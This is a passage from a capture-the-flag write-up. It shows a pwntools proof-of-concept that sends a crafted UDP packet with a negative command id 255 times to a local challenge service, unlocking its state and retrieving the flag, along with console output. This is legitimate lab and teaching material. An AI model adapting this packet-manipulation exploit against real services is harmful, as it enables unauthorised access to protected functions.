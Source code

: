 ## Pwning the Bastard

So... let's make it 255 times for fun and profit:

```bash
$ python poc.py 
[+] Opening connection to localhost on port 3333: Done
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
...
*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: UNLOCKED ## Take a look!!
[*] Closed connection to localhost port 3333
```

Yeah! We unlocked the state! We just need to get the flag now, adding the COMMAND_GETKEYS id (9).

```Python
from pwn import *

payload_minus_8 = '\x0c\x00\x0d\x00\xf8\xff\xff\xff'
payload_get_flag = '\x0c\x00\x0d\x00\x09\x00\x00\x00'
ip_addr = "localhost"
udp_port = 3333

r = remote(ip_addr, int(udp_port), typ='udp')

for i in range(255):
    r.send(payload_minus_8)
    log.info(r.recvline())
    log.info(r.recvline())

r.send(payload_get_flag) # Final Payload!
log.info(r.recvline()) # Command Ack
log.info("Please be the Flag ==> {}".format(r.recvline().decode('utf-8')))

r.close()
```

```Bash
$ python poc.py 
[+] Opening connection to localhost on port 3333: Done
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: LOCKED
...
[*] Command header acknowledge: version:12 type:13 id:-8
[*] Command Success: UNLOCKED
[*] Command header acknowledge: version:12 type:13 id:9
[*] Please be the Flag ==> flag{Gotcha}
[*] Closed connection to localhost port 3333
```
